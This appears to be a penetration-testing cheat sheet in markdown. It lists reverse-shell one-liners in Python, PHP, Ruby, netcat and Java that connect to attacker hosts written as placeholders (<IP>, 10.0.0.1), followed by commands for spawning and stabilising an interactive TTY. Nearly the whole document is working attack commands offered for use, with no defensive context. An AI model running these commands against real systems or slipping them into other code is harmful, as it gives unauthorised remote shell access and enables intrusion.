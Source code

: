 - Python
  - `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<Port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

- PHP
  - `php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

- Ruby
  - `ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

- Netcat
  - `nc -e /bin/sh 10.0.0.1 1234`
  - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f`

- Java
  - 
  ``` 
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()
  ```

- Interactive shell
  - Python
    - `python -c 'import pty; pty.spawn("/bin/bash")'`
    - `python3 -c 'import pty; pty.spawn("/bin/bash")'`

  - Bash
    - `echo os.system('/bin/bash')`

  - Sh
    - `/bin/bash -i`

  - Perl
    - `perl -e 'exec "/bin/bash"'`

  - Ruby
    - `exec "/bin/bash"`

  - Lua
    - `os.execute('/bin/bash')`

- Adjust Interactive shell
  - 
    ```
    stty size # Find your terminal size -> 50 235
    Ctrl-Z
    stty raw -echo  // Disable shell echo
    fg
    export SHELL=bash
    export TERM=xterm OR export TERM=xterm-256color
    stty rows 50 columns 235
    ```
